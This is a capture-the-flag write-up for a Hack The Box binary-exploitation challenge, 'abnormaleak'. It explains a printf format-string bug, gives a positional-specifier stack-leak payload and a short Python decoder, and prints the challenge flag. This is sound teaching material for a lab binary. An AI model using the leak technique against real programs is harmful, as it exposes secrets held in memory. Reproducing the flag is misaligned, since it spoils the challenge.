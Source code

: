 # CTF Write-up — abnormaleak (Format String + Stack Leak)
## Overview

### Category: Pwn / Binary Exploitation

Binary: abnormaleak (ELF 64-bit, x86-64, dynamically linked, not stripped)

### Goal: Leak stack memory via a format-string primitive and reconstruct the flag from bytes loaded on the stack

### Final Flag: HTB{FmT_gh0uL}

Given / Recon
file abnormaleak
```bash
abnormaleak: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked,
interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=b06d2633e58ad89fd2d06cb7ba76e5cc280dd86e,
for GNU/Linux 3.2.0, not stripped
```
```bash
checksec --file=./abnormaleak

RELRO:    Full RELRO
Canary:   Canary found
NX:       NX enabled
PIE:      PIE enabled
RPATH:    No
RUNPATH:  No
Symbols:  61 symbols
FORTIFY:  Enabled (Fortified: 0, Fortifiable: 4)
```

### Implication: No straightforward control-flow hijack (PIE + canary + NX + full RELRO). The challenge is set up for information disclosure.

## Program Flow (decompiled summary)
```
Option 1: opens flag.txt and fgets into a stack buffer local_b8[32].

Option 3: does read(0, &local_98, 0x4f) into a stack buffer that will later be used as a format string.

Option 2: executes printf((char *)&local_98); — format-string bug.

A loop counter local_c1 limits attempts; the read into local_98 can clobber adjacent locals if not NUL-padded to exactly 0x4f bytes, causing the loop to break early.
```

### Key relevant lines (paraphrased):

 Option 1: load flag content onto stack
fgets(local_b8, 0x20, fopen("flag.txt","r"))

 Option 3: copy user bytes into stack buffer that is later used as a format string
read(0, &local_98, 0x4f)

 Option 2: use attacker-controlled string as format
printf((char *)&local_98)


### Vulnerability: classic printf(user_buf) format-string primitive.

## Strategy

- Load flag into stack using Option 1 (puts flag bytes into local_b8 on the stack frame).

- Install format string via Option 3: send a payload of exactly 0x4f bytes (NUL-padded), so the loop continues.

- Trigger leak via Option 2: printf(fmt) reads attacker format and prints stack words.

### Reconstruct bytes: print many consecutive qwords as 16-hex tokens using %N$016llx, convert each token to little-endian 8-byte sequence, concatenate, and scan for HTB{...}.

Because the stack is little-endian, each %llx token (big-endian text) must be byte-reversed to recover the original bytes.

### Example Payload (one batch)

Use positional specifiers for a stretch of arguments where the varargs live. Adjust indices as needed (example starts at 6):
```
%6$016llx %7$016llx %8$016llx %9$016llx %10$016llx %11$016llx %12$016llx %13$016llx
```

- Send this into Option 3, Pad to exactly 0x4f bytes with \x00.

- Then select Option 2 to print the leak.

- Repeat with additional ranges if needed: %14$016llx … %21$016llx, etc.


Decoding the Leak

Each printed token is a 16-hex qword (e.g., 414243440a000000). Convert to bytes and reverse to little-endian:
```python
def token_to_le_bytes(tok: str) -> bytes:
    return int(tok, 16).to_bytes(8, 'little')


Concatenate the bytes from consecutive stack slots in order, then search for the flag:

blob = b''.join(token_to_le_bytes(t) for t in tokens)
start = blob.find(b'HTB{')
end   = blob.find(b'}', start) + 1 if start != -1 else -1
flag  = blob[start:end].decode() if start != -1 and end != 0 else None
```
### Why NUL-Pad to 0x4f?

The vulnerable read(0, &local_98, 0x4f) is adjacent to other locals (e.g., the attempt counter local_c1). If you don’t NUL-pad up to exactly 0x4f, stack garbage or trailing bytes can corrupt local_c1, exiting before you can leak.

## Result

Using batched leaks and decoding, the concatenated little-endian bytes contain:

### HTB{FmT_gh0uL}


